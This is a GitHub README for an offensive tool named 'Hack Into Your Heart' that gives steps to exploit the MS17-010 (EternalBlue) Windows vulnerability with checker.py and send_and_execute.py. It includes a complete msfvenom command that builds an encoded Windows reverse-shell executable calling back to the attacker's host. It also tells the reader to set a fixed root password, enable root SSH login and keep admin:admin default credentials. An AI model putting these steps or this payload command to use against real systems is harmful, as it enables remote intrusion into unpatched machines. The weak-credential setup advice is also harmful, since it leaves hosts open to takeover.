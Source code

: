 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

## Usage

Login page default credentials is admin:admin

Start SSH service for ai2 connect.
Download the ms17-010.sh to /root and 
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```

